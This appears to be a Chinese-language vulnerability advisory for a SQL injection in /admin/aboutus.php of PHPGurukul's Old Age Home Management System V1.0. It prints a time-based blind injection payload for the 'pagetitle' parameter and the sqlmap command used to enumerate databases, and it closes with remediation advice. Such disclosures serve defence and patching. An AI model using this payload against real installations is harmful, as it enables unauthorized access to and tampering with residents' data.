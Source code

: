 # Phpgurukul 养老院管理系统 V1.0 /admin/aboutus.php SQL 注入

# 受影响产品的名称

- 养老院管理系统

## 供应商主页

- https://phpgurukul.com/old-age-home-management-system-using-php-and-mysql/

# 受影响或已修复的版本

## 提交者

- 0xabandon

## 漏洞文件

- /admin/aboutus.php

## 版本

- V1.0

## 软件链接

- https://phpgurukul.com/projects/Old-Age-Home-MS-using-PHP.zip

# 问题类型

## 漏洞类型

- SQL 注入

## 根本原因

- 在“养老院管理系统“项目中的“/admin/aboutus.php”文件中发现一个 SQL 注入漏洞。导致此问题的原因是攻击者从参数”pagetitle“中注入恶意代码，并直接在 SQL 查询中使用，而无需进行适当的清理或验证。这允许攻击者伪造输入值，从而操纵 SQL 查询并执行未经授权的操作。

## 影响

- 攻击者可利用此 SQL 注入漏洞，实现未经授权的数据库访问、敏感数据泄漏、数据篡改、全面系统控制，甚至服务中断，对系统安全和业务连续性构成严重威胁。

# 描述

- 在对 “养老院管理系统 ”进行安全检查时，发现“/admin/aboutus.php”文件中存在严重的 SQL 注入漏洞。该漏洞源于“pagetitle”参数的用户输入验证不足，允许攻击者注入恶意 SQL 查询。因此，攻击者可在未经授权的情况下访问数据库、修改或删除数据以及访问敏感信息。需要立即采取补救措施，以确保系统安全和保护数据完整性。

# 利用此漏洞无需登录或授权

# 漏洞详情和 POC

## 漏洞:

- “pagetitle”参数

## Payload:

```makefile
Parameter: pagetitle (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: pagetitle=11' AND (SELECT 8073 FROM (SELECT(SLEEP(5)))oHyY) AND 'KynK'='KynK&pagedes=11&submit=
```

## 以下是使用 sqlmap 工具测试和运行时获得的一些具体信息的截图：

```bash
    sqlmap -u "http://10.20.33.25/oahms/admin/aboutus.php" --data="pagetitle=11&pagedes=11&submit=" --dbs
```

![Image](https://github.com/user-attachments/assets/21f28f53-1535-4025-b76a-340e01387c5a)

# 修复建议

1. **使用准备语句和参数绑定：**
   准备语句可防止 SQL 注入，因为它们将 SQL 代码与用户输入数据分开。使用准备语句时，用户输入的值将被视为纯数据，不会被解释为 SQL 代码。

2. **输入验证和过滤：**
   严格验证和过滤用户输入数据，确保其符合预期格式。

3. **尽量减少数据库用户权限：**
   确保用于连接数据库的账户具有最低必要权限。避免在日常操作中使用具有高级权限的账户（如 “root ”或 “admin”）。

4. **定期安全审计：**
   定期进行代码和系统安全审计，及时发现并修复潜在的安全漏洞。